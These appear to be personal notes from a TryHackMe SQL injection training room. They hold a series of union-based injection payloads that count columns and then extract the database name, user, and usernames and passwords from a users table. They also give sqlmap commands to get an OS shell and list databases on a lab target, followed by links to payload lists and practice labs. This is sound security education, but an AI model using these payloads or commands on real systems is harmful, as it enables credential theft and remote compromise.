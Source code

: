 Task 7 Unit 7 - Union Based SQLi 
' UNION SELECT NULL --
' UNION SELECT NULL,NULL -- //
' UNION SELECT NULL,NULL,NULL, -- //
' UNION SELECT NULL,NULL,NULL,NULL-- //
' UNION SELECT NULL,NULL,NULL,NULL,NULL -- //


' UNION SELECT NULL 'a' -- //


' UNION SELECT NULL,NULL,NULL,NULL,'a' -- //
' UNION SELECT NULL,NULL,NULL,'a',NULL -- //
' UNION SELECT NULL,NULL,'a',NULL,NULL -- //
' UNION SELECT NULL,'a',NULL,NULL,NULL -- //
' UNION SELECT 'a',NULL,NULL,NULL,NULL -- //

' UNION SELECT NULL,database(),NULL,NULL,NULL -- //
database()
or 
' UNION SELECT NULL,NULL,database(),NULL,NULL -- //
...
	sqlitraining

user(),@@version,username,password

' UNION SELECT NULL,NULL,user(),NULL,NULL -- //

' union select null, id, username, password, fname from users -- //


Task 8 Unit 8 - Automating exploitation 
sql
https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet


How would you get an OS shell on website "sqli.thm/login.php"? (URL switch comes first)
sqlmap -u "http://10.10.179.137/login.php" --os-shell
sqlmap -u sqli.thm/login.php — os-shell




What about listing all databases on the same website? (URL switch comes first)


sqlmap -u "sqli.thm/login.php" --dbs

https://tryhackme.com/room/sqlibasics
https://www.kumaratuljaiswal.in/2021/05/learn-to-perform-sqli-attacks.html


Congratulations! You have successfully gone through the major part of SQLi. Now, with all that knowledge it won't take long for you to pick up on small tricks and tactics by reading and researching more. I have attached a some further SQLi resources for you to explore. Enjoy!

If you have any questions or willing to leave feedback, you can easily reach me out on TryHackMe discord.
Good luck with your studies!

Payload Lists:
1. https://github.com/payloadbox/sql-injection-payload-list 
2. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection 

Guides & Blogs:
1. https://www.sqlinjection.net/
2. http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet 
3. https://github.com/trietptm/SQL-Injection-Payloads 
4. https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet 
5. https://resources.infosecinstitute.com/dumping-a-database-using-sql-injection/ 
(Special thanks to TheMayor for linking the last one)

Labs and practice:
1. https://portswigger.net/web-security/sql-injection
2. https://github.com/Audi-1/sqli-labs
3. https://github.com/appsecco/sqlinjection-training-app
4. https://tryhackme.com/room/gamezone 
5. https://tryhackme.com/room/avengers
6. https://tryhackme.com/room/uopeasy 
7. https://tryhackme.com/room/jurassicpark 


